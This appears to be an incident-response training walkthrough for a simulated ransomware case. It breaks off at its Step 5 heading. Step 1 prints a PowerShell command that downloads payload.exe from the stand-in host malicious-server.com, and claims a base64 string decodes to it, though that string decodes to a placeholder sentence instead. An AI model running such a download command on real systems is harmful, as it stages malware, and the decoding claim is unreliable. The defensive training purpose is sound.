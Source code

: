 <div class="neon-line"></div>

### **Investigation Steps**

Here’s a guided investigation flow to analyze the scenario in-depth.
#### **Step 1: Decode the Base64 PowerShell Command**
- The encoded PowerShell command was identified as:
  ```shell
  dGhpcyBpcyBhIHNpbXVsYXRlZCBleGFtcGxlIGZvciBiYXNlNjQgZGVjb2Rpbmc=
  ```

- **Decode** the command using a decoding tool to reveal:

  ```shell
  powershell.exe -Command "Invoke-WebRequest -Uri http://malicious-server.com/downloads/payload.exe -OutFile C:\Windows\Temp\payload.exe"
  ```

- **Analysis:** This command indicates an attempt to download a malicious payload from an external server. This file likely initiated the ransomware encryption process on `ENG-FS01`.

#### **Step 2: Trace the Infection Source from ENG-WKS12**

- **Check Process Creation Logs on ENG-WKS12:**
  - Look for the initial download and execution of the `payload.exe` file.
  - Confirm if there are any logins or administrative actions taken by `ENG-WKS12` that could have propagated the attack to `ENG-FS01`.

- **Analyze SMB Traffic:**
  - The SMB traffic from `ENG-WKS12` to `ENG-FS01` indicates unauthorized file modifications, likely involving the encryption process.
  - Identify if the ransomware used file shares to spread.

#### **Step 3: Review Authentication Failures Across Engineering Workstations**

- The failed login attempts from `ENG-WKS12` to other workstations suggest possible lateral movement.
- **Action:** Investigate if the user credentials on `ENG-WKS12` were compromised, especially the “Engineering” account. This account may have been used to access multiple workstations, attempting to spread the infection.

#### **Step 4: Identify Scope and Contain the Infection**

- **Determine the Impact on ENG-FS01:**
  - Assess the number of files affected and ensure backups are available.
  - **Isolate** `ENG-WKS12` and `ENG-FS01` to prevent further spread.
  - **Block** connections to `malicious-server.com` at the firewall level to prevent additional payload downloads.

- **Quarantine ENG-WKS12:**
  - Block all network access from `ENG-WKS12` to limit potential lateral movement or further malware propagation.
  - Begin scanning the endpoint for any additional malware or residual infections.

#### **Step 5: Coordinate with Incident Response Team**
